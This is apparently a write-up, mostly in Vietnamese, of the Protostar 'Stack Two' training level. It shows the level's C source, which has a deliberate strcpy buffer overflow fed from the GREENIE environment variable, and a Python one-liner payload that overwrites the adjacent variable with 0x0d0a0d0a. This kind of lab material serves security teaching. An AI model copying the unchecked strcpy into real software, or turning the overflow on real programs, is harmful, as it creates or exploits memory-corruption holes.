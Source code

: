 # STACK TWO

## About

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Solutions

`STACK TWO` được thay đổi một chút từ `STACK ONE` khi mà vẫn có thể khai thác buffer overflow thông qua `strcpy()` nhưng giá trị được sao chép là từ `Environment Variables` - `Biến môi trường` mà chương trình yêu cầu là `GREENIE`.

Ta tiến hành set giá trị cho biến môi trường `GREENIE`:

```
root@protostar:/opt/protostar/bin# GREENIE=$(python -c 'print "A" * 64 + "\x0a\x0d\x0a\x0d"')           
root@protostar:/opt/protostar/bin# export GREENIE 
```
Lưu ý `Little Edian` và lưu biến môi trường vào danh sách.

```
root@protostar:/opt/protostar/bin# ./stack2                                                             
you have correctly modified the variable
```

## Documents

<https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/>

<https://www.coengoedegebure.com/buffer-overflow-attacks-explained/>

<https://en.wikipedia.org/wiki/Endianness>

<https://linuxconfig.org/how-to-set-and-list-environment-variables-on-linux>


